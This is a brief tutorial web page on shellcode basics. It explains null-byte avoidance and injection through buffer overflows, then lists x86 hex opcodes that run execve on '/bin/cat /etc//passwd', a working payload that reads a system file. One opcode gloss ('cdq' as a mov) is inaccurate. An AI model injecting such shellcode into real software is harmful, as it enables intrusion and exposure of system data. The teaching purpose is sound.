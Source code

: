 <h1>Shellcode Basic</h1>
<hr>
<p>Shellcode is machine code that when executed spawns a shell Not all "Shellcode" spawns a shell.Shellcode is a list of machine code instructions which are developed in a manner that allows it to be injected in a vulnerable application during its runtime.Injecting Shellcode in an application is done by exploiting various security holes in an application like buffer overflows, which are the most popular ones.You cannot access any values through static addresses because these addresses will not be static in the program that is executing your Shellcode. But this is not applicable to environment variable.While creating a shell code always use the smallest part of a register to avoid null string.A Shellcode must not contain null string since null string is a delimiter.Anything after null string is ignored during execution.That’s a brief about
Shellcode</p>
<b>Methods for generating Shellcode<b/>
<li>1. Write the shellcode  directly in hex code.</li>
<li>2.Write the assembly instructions, and then extract the opcodes to generate the shellcode.</li>
<li>3. Write in C, extract assembly instructions and then  the opcodes and finally generate the shellcode.</li>

<b>Hex-Opcodes             Assembly instruction</b>
<ul>
<li>"\x31\xc0"                                           xorl    %eax,%eax    </li>   
 <li> "\x99"                                            cdq== movl eax edx  </li>   
 <li> "\x52"                                              push edx                    </li>
 <li> "\x68\x2f\x63\x61\x74"                pushl 0x7461632f  </li>
 <li>"\x68\x2f\x62\x69\x6e"                pushl 0x6e69622f </li>
<li> "\x89\xe3"                                         mov ebx,esp   </li>
<li> "\x52"                                             push edx      </li>
<li>"\x68\x73\x73\x77\x64"                  pushl 0x64777373 </li>  
<li>"\x68\x2f\x2f\x70\x61"                pushl  0x61702f2f  </li>
<li>"\x68\x2f\x65\x74\x63"               pushl 0x6374652f </li>
<li>"\x89\xe1"                                       mov ecx,esp  </li>
<li>"\xb0\x0b"                                     mov  $0xb,%al            </li>                  
<li>"\x52"                                             push edx </li>
<li>"\x51"                                              push ecx </li>
<li>"\x53"                                             push ebx </li>
<li>"\x89\xe1"                                      mov ecx,esp   </li>
 <li>"\xcd\x80" ;                                    int 80h    </li>

